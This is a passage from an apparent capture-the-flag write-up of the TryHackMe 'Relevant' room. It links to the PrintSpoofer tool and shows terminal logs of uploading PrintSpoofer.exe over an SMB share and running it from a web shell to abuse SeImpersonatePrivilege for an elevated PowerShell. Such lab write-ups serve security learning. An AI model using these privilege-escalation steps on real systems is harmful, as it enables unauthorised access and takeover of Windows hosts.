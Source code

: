 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

[PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

```
kali@kali:~/CTFs/tryhackme/Relevant$ smbclient //10.10.9.11/nt4wrksv
Enter WORKGROUP\kali's password:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\10.10.9.11\nt4wrksv\
smb: \> ls
  .                                   D        0  Wed Oct 14 21:42:49 2020
  ..                                  D        0  Wed Oct 14 21:42:49 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 5135045 blocks available
smb: \> put PrintSpoofer.exe
putting file PrintSpoofer.exe as \PrintSpoofer.exe (22.4 kb/s) (average 22.4 kb/s)
smb: \> ls
  .                                   D        0  Wed Oct 14 22:08:03 2020
  ..                                  D        0  Wed Oct 14 22:08:03 2020
  passwords.txt                       A       98  Sat Jul 25 17:15:33 2020
  PrintSpoofer.exe                    A    27136  Wed Oct 14 22:08:04 2020
  shell.aspx                          A  1015556  Wed Oct 14 21:42:50 2020

                7735807 blocks of size 4096. 5135038 blocks available
smb: \> exit
```

```
c:\users\Bob\Desktop>cd C:\
cd C:\

C:\>cd \inetpub\wwwroot\nt4wrksv
cd \inetpub\wwwroot\nt4wrksv

C:\inetpub\wwwroot\nt4wrksv>ls
ls
'ls' is not recognized as an internal or external command,
operable program or batch file.

C:\inetpub\wwwroot\nt4wrksv>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\inetpub\wwwroot\nt4wrksv

10/14/2020  01:08 PM    <DIR>          .
10/14/2020  01:08 PM    <DIR>          ..
07/25/2020  08:15 AM                98 passwords.txt
10/14/2020  01:08 PM            27,136 PrintSpoofer.exe
10/14/2020  12:42 PM         1,015,556 shell.aspx
               3 File(s)      1,042,790 bytes
               2 Dir(s)  21,033,115,648 bytes free

C:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c powershell.exe
PrintSpoofer.exe -i -c powershell.exe
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.
```